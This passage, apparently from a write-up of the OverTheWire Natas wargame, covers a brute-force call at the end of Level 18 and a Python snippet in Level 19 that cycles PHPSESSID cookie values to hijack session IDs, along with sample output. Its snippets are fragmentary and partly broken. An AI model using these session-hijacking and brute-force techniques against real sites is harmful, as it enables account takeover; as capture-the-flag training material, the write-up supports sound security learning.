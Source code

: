 ```python
    PAYLOAD = ({'debug': '1', 'username': 'user', 'password': 'pass'})
    MAXID = 640

    brute_force_password(AUTH, URL, PAYLOAD, MAXID)
```

After a few minutes, we get our password.



















### Level 19: Hijacking Session ID II



This level looks exactly like the previous except that it has the following message:

> This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

![](http://i.imgur.com/OQ7LATt.png)


This time we have no access to the source code to see how the session IDs are created. However, we have access to the values in the cookie which are created by the session.

We write the following snippet:

```python
HEADER ={'Cookie':'PHPSESSID=' + str(i)}
r = requests.post(URL, auth=AUTH, params=PAYLOAD, headers=HEADER)
print(i)
print(HEADER[1])
```

This produces the following output:

```
0
{'PHPSESSID': '3236312d75736572'}
1
{'PHPSESSID': '3136372d75736572'}
2
{'PHPSESSID': '3534342d75736572'}
3
{'PHPSESSID': '3238352d75736572'}
4
{'PHPSESSID': '3334332d75736572'}
(...)
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits